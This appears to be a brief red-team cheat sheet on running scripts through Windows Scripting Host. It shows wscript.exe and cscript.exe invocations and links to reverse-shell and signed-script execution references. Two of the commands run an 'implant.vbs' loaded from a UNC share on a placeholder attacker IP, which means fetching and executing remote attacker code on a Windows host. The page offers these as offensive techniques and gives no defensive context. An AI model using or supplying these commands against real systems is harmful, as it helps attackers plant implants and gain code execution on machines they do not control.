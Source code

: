# Windows Scripting Host

## VBScript

```
C:\> wscript.exe <script.js | script.vbs>

C:\> wscript.exe //E:vbscript \\<attacker_IP>\path\to\implant.vbs
```

## JScript Dialect

```
C:\> cscript.exe <script.js | script.vbs | script.cs>

C:\> cscript.exe //E:jscript \\<attacker_IP>\path\to\implant.vbs
```

---
## References

### Hacktricks

- [Hacktricks: Windows Reverse Shells](https://book.hacktricks.wiki/en/generic-methodologies-and-resources/reverse-shells/windows.html)

### Red Team Notes

- [Red Team Notes: `pubprn.vbs` Signed Script Code Execution](https://www.ired.team/offensive-security/code-execution/t1216-signed-script-ce)
